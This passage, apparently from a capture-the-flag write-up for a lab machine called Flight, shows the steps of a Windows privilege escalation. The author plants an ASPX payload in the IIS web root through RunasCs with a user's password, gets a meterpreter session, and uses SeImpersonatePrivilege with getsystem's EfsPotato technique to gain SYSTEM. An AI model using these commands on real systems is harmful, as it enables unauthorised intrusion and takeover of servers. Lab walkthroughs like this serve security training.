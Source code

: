 ```powershell
.\RunasCs.exe C.Bum Tikkycoll_431012284 "copy C:\Update\x.aspx C:\inetpub\development"
IWR -UseBasic "http://127.0.0.1:8000/x.aspx"
```
{:.nolineno}

Once we trigger the payload, we get a callback to our HTTP server, then a new meterpreter session is established as the user **_IIS APPPOOL\DefaultAppPool_**. Using metasploit's `getprivs` command on our new meterpreter session, we discover that this user has the **SeImpersonatePrivilege** right. We can abuse this with metasploit's `getsystem` command while specifying the reliable EfsPotato technique.

```bash
# IIS APPPOOL\DefaultAppPool@flight.htb (meterpreter)
getsystem -t 6
getuid
```
{:.nolineno}

At this point, we have a shell as **_NT AUTHORITY\SYSTEM_** and we can read both flags at `C:\Users\C.Bum\Desktop\user.txt`{:.filepath} and `C:\Users\Administrator\Desktop\root.txt`{:.filepath}.